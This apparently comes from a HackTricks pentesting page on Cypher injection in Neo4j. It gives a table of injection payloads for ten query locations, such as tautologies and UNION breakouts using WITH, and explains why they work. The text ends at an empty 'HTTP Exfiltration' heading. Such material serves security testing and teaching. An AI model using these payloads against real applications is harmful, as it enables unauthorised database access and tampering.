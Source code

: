 # Cypher Injection (neo4j)

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## Common Cypher Injections

The **MATCH** and **WHERE** statements are **common scenarios**.

When we have found an injection, the way to exploit it depends on the **location within the query**. Below is a table of different injection locations and exploitation examples:

| Injectable query                                                                                                    | Injection                                            |
| ------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------- |
| `MATCH (o) WHERE o.Id='{input}'`                                                                                    | `' OR 1=1 WITH 0 as _l00 {…} RETURN 1 //`            |
| <p><code>MATCH (o) WHERE '{input}' = o.Id</code><br><code>MATCH (o) WHERE {input} in [different, values]</code></p> | `'=' {…} WITH 0 as _l00 RETURN 1 //`                 |
| `MATCH (o) WHERE o:{input}`                                                                                         | `a {…} WITH 0 as _l00 RETURN 1 //`                   |
| `` MATCH (o) WHERE o:`{input}` ``                                                                                   | ``a` {...} WITH 0 as _l00 RETURN 1 //``              |
| `MATCH (o {id:'{input}'})`                                                                                          | `'}) RETURN 1 UNION MATCH (n) {...} RETURN 1 //`     |
| `MATCH (o:{input})`                                                                                                 | `a) RETURN 1 UNION MATCH (n){...} RETURN 1//`        |
| ``MATCH (o:`{input}`)``                                                                                             | ``a`) RETURN 1 UNION MATCH (n){...} RETURN 1 //``    |
| `MATCH (o)-[r {id:'{input}'})]-(o2)`                                                                                | `'}]-() RETURN 1 UNION MATCH (n){...} RETURN 1//`    |
| `MATCH (o)-[r:{input}]-(o2)`                                                                                        | `a]-() RETURN 1 UNION MATCH (n){...} RETURN 1 //`    |
| ``MATCH (o)-[r:`{input}`]-(o2)``                                                                                    | ``a`]-() RETURN 1 UNION MATCH (n){...} RETURN 1 //`` |

Note the UNION statement:

1. The reason UNION is required is that if the MATCH statement doesn't return anything, the rest of the query won't run. So, all the nefarious things we might do there will simply not execute.
2. We add “RETURN 1” before the UNION so both parts return the same columns, which is required for the query to execute.

So, what's with the “WITH” statement?

Using WITH, we can drop all existing variables. This is important when we don't know what the query is (more on that later). If our payload accidentally tries to set a variable that already exists, the query will fail to run.

Naturally, if we know the query and the database, none of these techniques are required. We can even manipulate the returned data to in turn manipulate the process instead of just abusing the server.

## HTTP Exfiltration
